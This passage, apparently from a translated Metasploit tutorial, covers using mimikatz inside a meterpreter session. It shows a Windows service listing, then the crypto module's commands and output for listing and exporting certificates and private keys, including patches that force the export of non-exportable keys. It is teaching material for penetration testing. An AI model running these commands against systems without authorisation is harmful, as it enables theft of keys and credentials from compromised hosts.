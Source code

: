 ```
        WIN32_OWN_PROCESS       STOPPED RpcLocator      Remote Procedure Call (RPC) Locator
  980   WIN32_OWN_PROCESS       RUNNING RpcSs   Remote Procedure Call (RPC)
        WIN32_OWN_PROCESS       STOPPED RSVP    QoS RSVP
  760   WIN32_SHARE_PROCESS     RUNNING SamSs   Security Accounts Manager
        WIN32_SHARE_PROCESS     STOPPED SCardSvr        Smart Card
 1124   WIN32_SHARE_PROCESS     RUNNING Schedule        Task Scheduler
        KERNEL_DRIVER   STOPPED Secdrv  Secdrv
 1124   INTERACTIVE_PROCESS     WIN32_SHARE_PROCESS     RUNNING seclogon        Secondary Logon
 1804   WIN32_OWN_PROCESS       RUNNING Secunia PSI Agent       Secunia PSI Agent
 3460   WIN32_OWN_PROCESS       RUNNING Secunia Update Agent    Secunia Update Agent
...snip...

```

Crypto 模块允许你 list、export 任何证书，以及储存在目标机器上相应的私钥：

```
meterpreter > mimikatz_command -f crypto::
Module : 'crypto' identifié, mais commande '' introuvable

Description du module : Cryptographie et certificats
listProviders   - Liste les providers installés)
  listStores    - Liste les magasins système
listCertificates        - Liste les certificats
    listKeys    - Liste les conteneurs de clés
exportCertificates      - Exporte les certificats
  exportKeys    - Exporte les clés
    patchcng    - [experimental] Patch le gestionnaire de clés pour l'export de clés non exportable
   patchcapi    - [experimental] Patch la CryptoAPI courante pour l'export de clés non exportable

meterpreter > mimikatz_command -f crypto::listProviders
Providers CryptoAPI :
        Gemplus GemSAFE Card CSP v1.0
        Infineon SICRYPT Base Smart Card CSP
        Microsoft Base Cryptographic Provider v1.0
        Microsoft Base DSS and Diffie-Hellman Cryptographic Provider
        Microsoft Base DSS Cryptographic Provider
        Microsoft Base Smart Card Crypto Provider
        Microsoft DH SChannel Cryptographic Provider
        Microsoft Enhanced Cryptographic Provider v1.0
        Microsoft Enhanced DSS and Diffie-Hellman Cryptographic Provider
        Microsoft Enhanced RSA and AES Cryptographic Provider (Prototype)
        Microsoft RSA SChannel Cryptographic Provider

```

## 0x04 Never Lose At Minesweeper Again!

* * *

Mimikatz 也包含许多新奇的特性。最重要的一个就是能够在经典的 windows 扫描游戏中，直接从内存中读地雷的位置。
